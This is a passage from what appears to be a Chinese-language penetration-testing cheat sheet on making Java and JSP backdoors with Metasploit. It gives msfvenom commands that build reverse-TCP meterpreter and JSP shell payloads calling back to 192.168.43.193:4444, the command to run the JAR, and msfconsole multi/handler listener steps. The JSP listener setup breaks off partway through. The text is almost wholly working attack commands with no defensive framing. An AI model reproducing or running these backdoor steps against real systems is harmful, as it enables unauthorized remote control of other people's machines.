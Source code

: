 ## 2.java后门

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=监听端ip地址 LPORT=监听端端口 x >文件路径/文件名



案例：msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.43.193 LPORT=4444 x >shell.jar
```

运行命令：java -jar shell.jar

### 监听设置

```
msfconsole



use exploit/multi/handler



set payload java/meterpreter/reverse_tcp



set LHOST 192.168.43.193



set LPORT 4444



exploit
```

## 3.jsp后门

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=监听端ip地址 LPORT=监听端端口 -f raw >文件路径/文件名



案例：msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.43.193 LPORT=4444 -f raw > shell.jsp
```

### 监听设置

```
msfconsole



use exploit/multi/handler



set payload java/jsp_shell_reverse_tcp



set LHOST 192.168.43.193

```